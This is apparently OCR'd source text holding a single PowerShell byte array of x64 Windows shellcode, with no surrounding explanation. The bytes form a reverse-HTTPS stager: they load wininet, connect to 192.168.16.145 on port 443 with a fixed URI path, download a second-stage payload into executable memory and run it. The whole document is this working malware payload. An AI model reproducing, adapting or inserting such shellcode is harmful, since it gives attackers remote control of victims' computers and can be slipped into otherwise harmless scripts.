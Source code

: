 [Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xf,0x0,0x0,0x0,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x31,0x36,0x2e,0x31,0x34,0x35,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0xbb,0x1,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0x41,0x0,0x0,0x0,0x2f,0x7a,0x69,0x6a,0x79,0x46,0x31,0x7a,0x52,0x31,0x71,0x50,0x2d,0x6a,0x66,0x2d,0x50,0x70,0x53,0x6a,0x56,0x6f,0x67,0x6e,0x6f,0x57,0x49,0x5a,0x77,0x45,0x50,0x53,0x65,0x47,0x71,0x49,0x70,0x4e,0x74,0x5f,0x6f,0x4c,0x6e,0x32,0x46,0x39,0x48,0x38,0x6c,0x34,0x5a,0x30,0x6f,0x6e,0x33,0x71,0x65,0x68,0x36,0x46,0x2d,0x38,0x59,0x55,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa0,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
